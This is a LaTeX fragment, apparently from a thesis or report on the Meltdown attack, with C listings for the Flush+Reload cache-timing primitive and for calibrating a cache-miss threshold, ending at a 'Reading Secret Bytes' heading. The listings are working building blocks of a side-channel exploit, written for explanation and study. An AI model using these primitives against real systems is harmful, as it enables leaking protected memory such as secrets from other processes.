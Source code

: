 \documentclass[a4paper,oneside,openright] {scrreprt}
\begin{document}
\begin{lstlisting}[language=C, caption=Meltdown: Flush+Reload, label={lst:flushAndReload}]
static int __attribute__((always_inline)) flush_reload(void *ptr) {
    uint64_t start = 0, end = 0;
  
    start = rdtsc();
    maccess(ptr);
    end = rdtsc();
  
    flush(ptr);
  
    if (end - start < config.cache_miss_threshold) {
      return 1;
    }
    return 0;
}
\end{lstlisting}

Listing ~\ref{lst:computeThreshold} illustrates how the cache-threshold can be determined.
The implementation applies one million iterations to compute a precise threshold value.
Therefore a pointer \texttt{ptr} is accessed in line 6 so that it's referenced data gets cached. 

\begin{lstlisting}[language=C, caption=Meltdown: Cache Miss Threshold 1, label={lst:computeThreshold}]
size_t reload_time = 0, flush_reload_time = 0, i, count = 1000000;
size_t dummy[16];
size_t *ptr = dummy + 8;
uint64_t start = 0, end = 0;
  
maccess(ptr);
for (i = 0; i < count; i++) {
  start = rdtsc();
  maccess(ptr);
  end = rdtsc();
  reload_time += (end - start);
}
for (i = 0; i < count; i++) {
  start = rdtsc();
  maccess(ptr);
  end = rdtsc();
  flush(ptr);
  flush_reload_time += (end - start);
}
reload_time /= count;
flush_reload_time /= count;
\end{lstlisting}

Afterwards the access time is measured to detect how long it takes to retrieve the cached value. 
Then the pointer's referenced data is removed from the cache in line 17 and thus reloaded from memory in every iteration.
At the end the average access time for cache hits and cache misses are computed.
Listing ~\ref{lst:computeThreshold} shows the final computation of \texttt{cache\_miss\_threshold}.

\begin{lstlisting}[language=C, caption=Meltdown: Cache Miss Threshold 2, label={lst:finalthreshold}]
config.cache_miss_threshold = (flush_reload_time + reload_time * 2) / 3;
\end{lstlisting}

\subsection{Reading Secret Bytes}
\label{ch:intro:motivation:A}
\end{document}
